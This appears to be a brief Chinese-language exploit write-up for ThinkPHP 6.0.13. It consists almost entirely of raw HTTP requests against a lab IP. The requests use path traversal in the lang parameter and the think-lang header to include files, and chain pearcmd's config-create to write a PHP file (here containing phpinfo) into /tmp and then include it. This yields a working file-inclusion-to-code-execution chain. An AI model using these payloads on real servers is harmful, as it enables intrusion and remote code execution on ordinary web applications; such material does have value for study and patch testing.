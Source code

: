 文件包含读取

    
    
    GET /public/index.php?lang=../../../../../../../../../../../../tmp/1 HTTP/1.1  
    Host: 192.168.36.128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: think_lang=zh-cn  
    Connection: close

![]()

![]()

  

## TP - 6.0.13-Pearcmd x HEADER

    
    
    GET /public/index.php?+config-create+/&/<?=phpinfo()?>+/tmp/2.php HTTP/1.1  
    Host: 192.168.36.128  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    think-lang:../../../../../../../../../../../../../../usr/local/lib/php/pearcmd  
    Cookie: think_lang=zh-cn  
    Connection: close

![]()

查看

![]()

文件包含查看

    
    
    GET /public/index.php?lang=../../../../../../../../../../../../tmp/2 HTTP/1.1  
    Host: 192.168.36.128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: think_lang=zh-cn  
    Connection: close
